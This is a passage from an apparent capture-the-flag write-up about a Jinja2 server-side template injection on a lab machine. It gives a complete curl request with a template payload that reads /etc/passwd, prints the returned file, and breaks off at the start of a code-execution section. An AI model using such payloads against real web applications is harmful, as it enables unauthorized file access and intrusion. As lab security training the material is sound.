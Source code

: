 
Based on that testing, it’s working, and it’s likely Jinja2 (Twig would have
returned 49 for the last test).

### Read File

Looking at the [Jinja2 section on
PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#jinja2),
I’ll try to read a file:

    
    
    root@kali# curl -X POST http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY1MTA1Mn0.YuW5qoU_-327dbMSnydFQ6q5wyFPw3PFlDHDOjuu2Mk" --data "name=name&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}"
    Name: name desc: root:x:0:0:root:/root:/bin/ash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    sync:x:5:0:sync:/sbin:/bin/sync
    shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
    halt:x:7:0:halt:/sbin:/sbin/halt
    mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
    news:x:9:13:news:/usr/lib/news:/sbin/nologin
    uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
    operator:x:11:0:operator:/root:/bin/sh
    man:x:13:15:man:/usr/man:/sbin/nologin
    postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
    cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
    ftp:x:21:21::/var/lib/ftp:/sbin/nologin
    sshd:x:22:22:sshd:/dev/null:/sbin/nologin
    at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
    squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
    xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
    games:x:35:35:games:/usr/games:/sbin/nologin
    postgres:x:70:70::/var/lib/postgresql:/bin/sh
    nut:x:84:84:nut:/var/state/nut:/sbin/nologin
    cyrus:x:85:12::/usr/cyrus:/sbin/nologin
    vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
    ntp:x:123:123:NTP:/var/empty:/sbin/nologin
    smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
    guest:x:405:100:guest:/dev/null:/sbin/nologin
    nobody:x:65534:65534:nobody:/:/sbin/nologin
    

### Code Execution

Now I’ll use the code execution payload. First, I’ll see if I can get a simple
`id` to run:

    
    